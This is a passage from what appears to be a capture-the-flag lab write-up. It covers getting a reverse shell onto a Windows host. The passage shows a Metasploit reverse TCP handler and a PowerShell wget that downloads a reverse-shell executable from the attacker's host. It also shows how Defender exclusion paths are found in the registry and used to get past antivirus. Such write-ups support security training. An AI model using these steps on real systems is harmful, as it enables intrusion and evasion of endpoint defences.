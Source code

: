     [*] Started reverse TCP handler on 10.10.14.6:4444
    

#### Upload and Execution - Fail

I’ll use a Python webserver to host the executable, and fetch it into
`C:\ProgramData` with `wget`:

    
    
    PS C:\programdata> wget 10.10.14.6/rev.exe -outfile r.exe
    

Once it’s there, I’ll run it:

    
    
    PS C:\programdata> .\r.exe
    Program 'r.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted software.
        + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException 
        + FullyQualifiedErrorId : NativeCommandFailed 
    

It fails because of AV.

#### Defender Bypass

`C:\Utils` looks empty, but running with `-force` shows a single hidden file:

    
    
    PS C:\Utils> ls -force
    
        Directory: C:\Utils
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a-h--        12/21/2021   6:41 PM            148 desktop.ini
     
    PS C:\Utils> 
    cat .\desktop.ini
    [.ShellClassInfo]
    InfoTip=Directory for Testing Files without Defender
    

The registry confirms this:

    
    
    PS C:\Utils> 
    reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"
     
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths
        C:\Utils    REG_DWORD    0x0
        C:\Windows\System32    REG_DWORD    0x0
    

There are actually two, but I can’t write to `C:\Windows\System32` as a non-
privileged user.

#### Upload and Execution

I’ll upload the reverse shell again, this time into `C:\Utils`:
